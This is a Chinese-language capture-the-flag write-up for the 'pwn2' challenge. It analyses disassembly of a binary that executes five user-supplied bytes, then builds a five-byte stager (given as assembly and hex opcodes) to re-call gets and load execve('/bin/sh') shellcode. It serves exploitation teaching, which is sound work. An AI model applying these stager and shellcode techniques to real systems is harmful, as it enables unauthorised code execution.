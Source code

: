 ## pwn2 (pwn, 200p)

提供了以下文件：  
[pwn2](./pwn2)

---------------------------------------

### 0x1 分析程序
用IDA看下伪代码：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // eax@1
  char *v4; // ST28_4@1
  const char *v5; // ST2C_4@1

  v3 = mmap((void *)0x31337000, 4096u, 7, 34, 0, 0);
  v4 = (char *)v3;
  v5 = (char *)v3 + 4090;
  gets((char *)v3 + 4090);
  strncpy(v4, v5, 5u);
  return ((int (*)(void))v4)();
}
```

程序逻辑十分简单，如下。用`mmap`分配了块4096个字节的可写可读可执行的内存块。用'gets'读入6个字节，但其实只有5个可以控制，第六个为`\n`，超过6个字节报错。之后把这前5个字节copy到内存块头，并执行。看到这里，就知道关键在于输入的5个字节。这5个字节的要完成什么功能呢？


### 0x2 构造exp
看下程序的汇编代码：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+14h], 0 ; offset
.text:0804848E                 mov     dword ptr [esp+10h], 0 ; fd
.text:08048496                 mov     dword ptr [esp+0Ch], 22h ; flags
.text:0804849E                 mov     dword ptr [esp+8], 7 ; prot
.text:080484A6                 mov     dword ptr [esp+4], 1000h ; len
.text:080484AE                 mov     dword ptr [esp], 31337000h ; addr
.text:080484B5                 call    _mmap
.text:080484BA                 mov     [esp+28h], eax
.text:080484BE                 mov     eax, [esp+28h]
.text:080484C2                 add     eax, 0FFAh
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 mov     [esp], eax      ; s
.text:080484D2                 call    _gets
.text:080484D7                 mov     dword ptr [esp+8], 5 ; n
.text:080484DF                 mov     eax, [esp+2Ch]
.text:080484E3                 mov     [esp+4], eax    ; src
.text:080484E7                 mov     eax, [esp+28h]
.text:080484EB                 mov     [esp], eax      ; dest
.text:080484EE                 call    _strncpy
.text:080484F3                 mov     eax, [esp+28h]
.text:080484F7                 call    eax
.text:080484F9                 leave
.text:080484FA                 retn
.text:080484FA main            endp
```
首先我们看到只有5个字节肯定是完成不了exploit的，必须让它输入更多的opcode。所以考虑要跳转到`gets`语句，让我们可以输入更多的opcode。假如`gets`参数如果还是`0x31337FFA`(0x31337000+4090)的话，那没有变化，还是只能输入5个字节。要想办法可以输入更多的字节，我们看下执行后`.text:080484F7  call eax` 后栈的情况：

```
esp+0   ->    0x080484F9    ; return address
esp+4         0x31337000    ; strncpy的第一个参数 
esp+8         0x31337FFA    ; strncpy的第二个参数
esp+0c        0x00000005    ; strncpy的第三个参数
```

如果把0x080484F9当`gets`的参数，那么执行将报错，因为`.text`段不可写。但是如果把`0x31337000`当做`gets`的参数，那么是非常好的事情，这样我们可以输入4095个字节的opcode，而且还是可执行的。按照这思路，要把EIP变为`0x080484D2`，并且esp+4。发现`0x080484F9`和`0x080484D2`只有最低的字节不同，是否可以改变下，然后再来个`ret`呢？借助pwntools的`asm`指令，我们得到这个功能的opcode，正好它也是5个字节长度，nice。

```
$ asm "mov byte ptr [esp], 0xd2; ret"
c60424d2c3

$ asm "sub dword ptr [esp], 0x27; ret"
832c2427c3
```

之后，我们可以输入`execve ("/bin/sh")`的shellcode，并执行即可。详细代码请看[pwn2_exp.py](./pwn2_exp.py)


